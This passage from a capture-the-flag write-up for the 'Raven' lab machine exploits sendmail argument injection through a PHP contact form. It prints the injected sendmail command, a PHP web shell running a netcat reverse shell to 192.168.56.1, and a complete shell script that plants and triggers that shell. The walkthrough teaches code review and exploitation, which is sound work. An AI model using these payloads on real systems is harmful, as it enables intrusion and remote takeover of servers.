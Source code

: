 ```php
$name=$_REQUEST['name'];
$message=$_REQUEST['message'];
...
$mail->Subject  = "Message from $name";
$mail->Body     = $message;
```

Any of the two can be choosen to inject the backdoor payload. To test it, it is possible to launch the sendmail directly from the command line and craft the mail manually:

```
tester@Raven:# $(echo '/usr/sbin/sendmail -f"d3adc0de\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @gmail.com')
To: Hacker <admin@vulnerable.com>
Subject: Message from ME
Header: Date: Mon, 20 Jan 2020 20:23:17 +1100
From: Vulnerable Server <"d3adc0de\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @gmail.com>
PWND!!<?php system('nc -e /bin/bash 192.168.56.1 444'); ?>
.
tester@Raven:# cat shell.php | grep '<?php'
29395 <<< PWND!!<?php system('nc -e /bin/bash 192.168.56.1 444'); ?>
29395 >>> PWND!!<?php system('nc -e /bin/bash 192.168.56.1 444'); ?>
29395 >>> PWND!!<?php system('nc -e /bin/bash 192.168.56.1 444'); ?>
29395 >>> PWND!!<?php system('nc -e /bin/bash 192.168.56.1 444'); ?>

```
The backdoor was successfully created.

##### Wrapping up

The final payload, as it looks after tweaking:

```sh
#!/bin/sh
echo "[*] Staring Listener on port 444"
gnome-terminal -- nc -lvkp 444 2>/dev/null

echo "[*] Writing shell on the filesystem"
curl -ksi -x $'http://127.0.0.1:8080' \
-X $'POST' -H $'Content-Type: multipart/form-data' \
-F $'action=submit' \
-F $'subject=No Subject' \
-F $'message=TEST' \
--form-string $'name=<?php system("nc -e /bin/bash 192.168.56.1 444");?>'\
--form-string $'email="injection\\\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @pwnd.com' \
$'http://raven.local/contact.php' &>/dev/null

echo "[*] Triggering the reverse shell"
curl -ksi http://raven.local/shell.php -x http://127.0.0.1:8080 &>/dev/null
echo "[+] Done"
```

#### Conclusion

Very good machine to learn how to review code and find an injection point, if you don't choose to take the easy route and go with the public available exploit, of course! The level of complexity is close to AWAE level.

